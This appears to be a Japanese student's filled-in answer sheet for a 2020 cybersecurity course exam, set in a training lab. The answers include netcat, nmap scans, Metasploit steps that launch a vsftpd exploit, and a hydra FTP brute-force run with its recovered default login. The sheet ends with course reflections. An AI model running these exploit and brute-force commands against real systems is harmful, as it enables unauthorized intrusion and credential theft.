 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# ここに回答を記述
nc -lvp 5555

```
#### クライアント側コマンド

```sh
# ここに回答を記述
nc 192.168.33.11 5555
```
### 1.
#### サーバー側コマンド


```sh
# ここに回答を記述
nc -l 5555 < file

```
#### クライアント側コマンド

```sh
# ここに回答を記述
nc 192.168.33.12 5555 > file
```

## 問2 [Password Crack]

### 1.
```md
<!--  ここに回答を記述 -->

```

### 2.
```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap -sP 192.168.30.0/25
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV -p- 192.168.33.11
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
search platform:UNIX type:exploit vsftpd
use 0
set RHOST 192.168.33.11
exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd.list 192.168.33.11 ftp

```

### 2. 解析結果

```sh
# ここに回答を記述
[21][ftp] host: 192.168.33.11   login: msfadmin   password: msfadmin
あまりにも時間がかかってしまったので、途中でやめてしました。
```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
http&&ip.addr == 192.168.33.11
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
68点
```

## 問9 [講義の感想]

1.

```md
<!--  ここに回答を記述 -->
- ncの多様な使い方
- nmapでのポートスキャン
- backdorを使った遠隔操作
- wireshark,tsharkでの通信監視
- hydra,patator,johnでの攻撃
- 開けると危ないポート
- http通信の危なさ
```

2.
```md
<!--  ここに回答を記述 -->
最初はとても楽しみにしていた講義でしたが、分からないことが多くなっていくたびに友達に聞いたり、調べたり追いつくので精一杯でした。
smb.configの書き換えや教科書通りにうまくいかないたびに頭を抱えていましたが、エラーの対応力が少しは身についたのかな思います。
wiresharkでhttp通信やftp通信を観ることや、ncを使った遠隔操作、チャットは面白く、楽しかったです。　ありがとうございました。
```
